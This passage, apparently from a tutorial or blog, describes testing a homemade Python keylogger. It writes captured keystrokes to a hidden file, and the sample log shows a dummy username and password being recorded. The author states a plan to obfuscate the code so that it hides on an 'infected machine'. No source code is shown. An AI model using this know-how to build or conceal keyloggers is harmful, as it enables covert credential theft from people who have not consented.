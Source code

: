 
## 2 Execution

The next step is testing the python program and to fix any bugs, before we start obfuscating the code to hide it as well as possible on the infected machine.

### 2.1 Simple Testing

We simply run `python3 keylogger.py` and type some fake username and password in the browser. The output in `/tmp/.hidden.txt` looks as follows:
```text
============================================================
KEYLOGGER STARTUP SUMMARY
============================================================
Username:       victim
Machine:        victim-machine
IP Address:     10.239.22.148
Startup Time:   2025-10-09 15:45:18
OS Info:        Linux victim-machine 6.7.0-85-generic #85~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Fri Sep 19 16:18:59 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
Current Dir:    /tmp/.secret-folder
Python:         /home/victim/anaconda3/bin/python3
============================================================
LOGGING STARTED
============================================================

2025-10-09 15:45:24:U
2025-10-09 15:45:24:s
2025-10-09 15:45:24:e
2025-10-09 15:45:24:r
2025-10-09 15:45:25:n
2025-10-09 15:45:25:a
2025-10-09 15:45:25:m
2025-10-09 15:45:25:e
2025-10-09 15:45:26:1
2025-10-09 15:45:26:2
2025-10-09 15:45:26:3
2025-10-09 15:45:28:[TAB]
2025-10-09 15:45:34:P
2025-10-09 15:45:34:a
2025-10-09 15:45:34:s
2025-10-09 15:45:34:s
2025-10-09 15:45:39:w
2025-10-09 15:45:41:o
2025-10-09 15:45:42:r
2025-10-09 15:45:43:D
2025-10-09 15:45:46:4
2025-10-09 15:45:46:2
2025-10-09 15:45:48:%
2025-10-09 15:45:49:&
2025-10-09 15:46:25:[ENTER]
```
The keylogger works! The data does not look very pretty, but at least we find a ton of information, including the dummy username `Username123` and password `PassworD42%&`. Through some additional testing I found a few bugs. For instance, the key map `german_map` did not correctly assign the characters `<`, `>` and `#`.
